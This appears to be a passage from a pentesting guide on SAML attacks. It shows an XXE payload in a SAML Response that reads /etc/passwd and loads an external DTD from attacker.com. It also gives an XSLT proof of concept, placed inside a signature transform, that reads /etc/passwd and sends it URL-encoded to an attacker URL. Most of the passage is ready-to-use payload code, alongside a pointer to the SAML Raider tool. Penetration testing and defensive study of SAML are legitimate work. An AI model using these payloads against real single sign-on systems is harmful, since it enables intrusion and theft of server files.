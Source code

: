 ```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY    file SYSTEM "file:///etc/passwd">
   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
  <samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
  <saml:Issuer>...</saml:Issuer>
  <ds:Signature ...>
    <ds:SignedInfo>
      <ds:CanonicalizationMethod .../>
      <ds:SignatureMethod .../>
      <ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>...</ds:SignatureValue>
[...]
```

## Tools

You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XXE vulnerabilities and SAML vulnerabilities.

Check also this talk: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT via SAML

For more information about XSLT go to:

{% content-ref url="../xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

Extensible Stylesheet Language Transformations (XSLT) can be used for transforming XML documents into various formats like HTML, JSON, or PDF. It's crucial to note that **XSLT transformations are performed before the verification of the digital signature**. This means that an attack can be successful even without a valid signature; a self-signed or invalid signature is sufficient to proceed.

Here you can find a **POC** to check for this kind of vulnerabilities, in the hacktricks page mentioned at the beginning of this section you can find for payloads.

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```
